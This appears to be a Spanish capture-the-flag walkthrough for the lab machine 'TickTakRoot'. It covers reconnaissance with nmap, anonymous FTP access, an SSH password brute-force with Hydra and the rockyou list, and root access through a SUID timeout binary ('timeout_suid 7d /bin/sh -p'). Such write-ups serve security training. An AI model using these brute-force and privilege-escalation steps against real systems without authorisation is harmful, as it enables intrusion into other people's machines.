

# TickTakRoot

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.66
```

para verificar la conectividad de red.

<figure><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.66
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 192.168.1.66
```

para obtener más información sobre ese puerto específicamente.

<figure><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página por defecto de **Apache**.

<figure><figcaption></figcaption></figure>

Entramos al servicio **FTP** de forma anónima por si encontramos algo relevante.

<figure><figcaption></figcaption></figure>

Listamos el contenido y el directorio **login** que dentro tiene un archivo de texto por lo que nos los descargamos a nuestra máquina local para ver el contenido.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Se nos muestra un par de nombres que pueden ser posibles usuarios pero si nos damos cuenta cuando nos hemos conectado por **FTP** se nos muestra el nombre de **Robin** que será el usuario.&#x20;

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l robin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.66 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **192.168.1.66**.

<figure><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **robin**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh robin@192.168.1.66
```

<figure><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><figcaption></figcaption></figure>

El comando `timeout` se utiliza para ejecutar un comando y finalizarlo si no se completa en un tiempo específico. Sin embargo, este comando puede ser vulnerable a ciertas técnicas de explotación que permiten escalar privilegios. Para más información sobre cómo explotar el comando `timeout` y ejemplos prácticos, puedes consultar la página de [GTFObins](https://gtfobins.github.io/gtfobins/timeout/).

```bash
/usr/bin/timeout_suid 7d /bin/sh -p
```

<figure><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
